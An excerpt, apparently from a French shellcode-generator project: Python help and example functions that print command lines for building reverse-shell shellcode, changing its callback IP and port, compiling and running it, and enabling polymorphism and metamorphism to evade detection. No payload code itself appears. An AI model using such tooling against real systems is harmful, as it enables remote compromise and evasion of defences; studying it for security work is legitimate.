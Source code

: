 # security_shellcode

Création automatique d'un shellcode à injecter dans un programme (programme C directement disponible dans le git).

def exemple():
    print("<---------------------------------------- EXEMPLES ---------------------------------------->")
    print("Exemple : python "+sys.argv[0] +
          " -s ../final/asm/fnl_reverse_shell.asm " +
          "\n//     Retourne le shellcode     \\\\")
    print("Exemple : python "+sys.argv[0] +
          " -c ../final/c/fnl_reverse_shell.c " +
          "\n//     Compile et lance le programme     \\\\")
    print("Exemple : python "+sys.argv[0] +
          " -c -s ../final/asm/fnl_reverse_shell.asm " +
          "\n//     Compile et lance le programme avec le shellcode du fichier.asm     \\\\")
    print("Exemple : python "+sys.argv[0] +
          " -p 4444 -s ../final/asm/fnl_reverse_shell.asm " +
          "\n//     Retourne le shellcode du fichier en changeant le port     \\\\")
    print("Exemple : python "+sys.argv[0] +
          " -i 127.0.0.1 -s ../final/asm/fnl_reverse_shell.asm " +
          "\n//     Retourne le shellcode du fichier en changeant l'ip     \\\\")
    print("Exemple : python "+sys.argv[0] +
          " -c -s ../final/asm/fnl_reverse_shell.asm -i 127.0.0.1 -p 4444 " +
          "\n//     Compile et lance le programme avec le shellcode du fichier.asm en changeant l'ip et le port     \\\\")
    print("Exemple : python "+sys.argv[0] +
          " -c -s ../final/asm/fnl_reverse_shell.asm -i 127.0.0.1 -p 4444 -v -M -P" +
          "\n//     Compile et lance le programme avec le shellcode du fichier.asm en changeant l'ip et le port avec le polymorphisme et le metamorphisme activé   \\\\")
    print("<---------------------------------------- EXEMPLES ---------------------------------------->")


def help():
    print("<------------------------------------------ HELP ------------------------------------------>")
    print("-h Affiche ce message")
    print("-e Affiche des exemples de commandes")
    print("-v Active le mode verbosité")
    print("-vvv Active le mode haute verbosité (objdump)")
    print("-s Création de lu shellcode")
    print("-c compile un fichier.c et le lance")
    print("-i Changement de l'ip dans le shellCode")
    print("-p Changement du port dans le shellCode")
    print("-M Activation du metamorphisme du shellcode")
    print("-P Activation du polymorphisme du shellcode")
    print("<------------------------------------------ HELP ------------------------------------------>")
    exit()


